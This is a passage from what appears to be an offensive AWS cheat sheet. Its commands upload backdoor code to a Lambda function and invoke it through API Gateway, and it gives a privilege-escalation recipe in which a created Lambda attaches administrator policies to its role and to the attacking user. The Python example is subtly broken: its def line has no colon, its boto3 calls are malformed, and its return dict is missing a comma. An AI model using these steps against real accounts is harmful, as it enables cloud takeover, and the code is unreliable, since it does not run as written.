 ### Getting informatin about a specific version 

```
aws apigateway get-stage --res-api-id ID --stage-name NAME
```

### Uploading the backdoor code to aws lambda function

```
aws lambda update-function-code --function-name function --zip-file fileb://my-function.zip
```

### Invoke the Function

```
curl https://uj3948ie.execute-api.us-east-2.amazonaws.com/default/EXAMPLE
```

Where

1. API-ID -> uj3948ie
2. Region -> us-east-2
3. Resource (Endpoint) -> EXAMPLE
4. Method -> Get
5. Stage (Version) -> default
6. API-Key -> None

*All these details are gathered during the enumeration.*

## Privilege Escalation
* If we have a user with PassRole and CreateFunction roles and also AttachRolePolicy role in a Lambda Function, its possible to create a function with a code that changes the lambda role to admin then the user to Administrator.

### Create a lambda function and attach a role to it

```
aws lambda create-function --function-name my-function --runtime python3.7 --zip-file fileb://my-function.zip --handler my-function.handler --role ARN --region region
```

* Inside the function's code, we will add the administrator permission to the role and to the user

#### Example code to add the permissions

```python
import boto3
import json

def handler(event,context)
	iam = boto3.client("iam")
	iam.attach.role.policy(RoleName="name",PolicyArn="arn",)
	iam.attach.user.policy(UserName="name",PolicyArn="arn",)
	return {
		'statusCode':200
		'body':json.dumps("Pwned")
	}
```

